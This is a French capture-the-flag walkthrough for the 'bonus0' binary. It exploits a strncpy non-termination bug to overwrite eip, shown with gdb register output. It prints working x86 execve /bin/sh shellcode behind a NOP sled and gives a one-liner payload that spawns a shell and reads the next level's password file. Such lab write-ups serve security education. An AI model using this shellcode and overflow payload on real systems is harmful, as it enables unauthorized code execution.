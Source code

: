 ## bonus0
- À partir du [code source désassemblé](source.c), regardons ce qui peut être exploité :
    - On ne peut rien faire avec le `strcpy` car `buffer` est plus grand que `smallBufferTwo`
    - Par contre, on pourrait tirer profit d'une limitation de [`strncpy`](https://linux.die.net/man/3/strncpy) :
    > If there is no null byte among the first n bytes of src, the string placed in dest will not be null-terminated. 
- Avec `gdb`, il est facile de vérifier que l'on peut récrire le contenu du registre `eip` :
```
Starting program: /home/user/bonus0/bonus0 
 - 
AAABBBCCCDDDEEEFFFGGGHHHIII
 - 
JJJKKKLLLMMMNNNOOOPPPQQQRRR
AAABBBCCCDDDEEEFFFGGJJJKKKLLLMMMNNNOOOPP��� JJJKKKLLLMMMNNNOOOPP���

Program received signal SIGSEGV, Segmentation fault.
0x4e4d4d4d in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff730	0xbffff730
ebp            0x4c4c4c4b	0x4c4c4c4b
esi            0x0	0
edi            0x0	0
eip            0x4e4d4d4d	0x4e4d4d4d
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
- Il reste donc à exporter notre `shellcode` dans l'environnement et à faire pointer `eip` vers son adresse :
    - `export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`
    - Depuis `gdb`, mettre un *breakpoint* sur `main` puis lancer l'exécution. Utiliser `x/10s *((char **)environ)` pour retrouver l'adresse de notre exploit dans l'environnement => `0xbffff4e7`. Toutefois, cette adresse peut changer selon les arguments, on va donc ajouter 256 octets de décalage => `0xbffff5e7` (ce décalage n'impacte en rien le fonctionnement de notre exploit, puisque ce dernier commence par 1024 octets de [`NOP`](https://en.wikipedia.org/wiki/NOP_(code))).
    - `(python -c 'print "A"*4095 + "\n" + "\x90"*9 + "\xe7\xf5\xff\xbf" + "B"*10'; cat -) | ./bonus0` nous permet bien de lancer un *shell*. `cat /home/user/bonus1/.pass` pour récupérer le *flag*.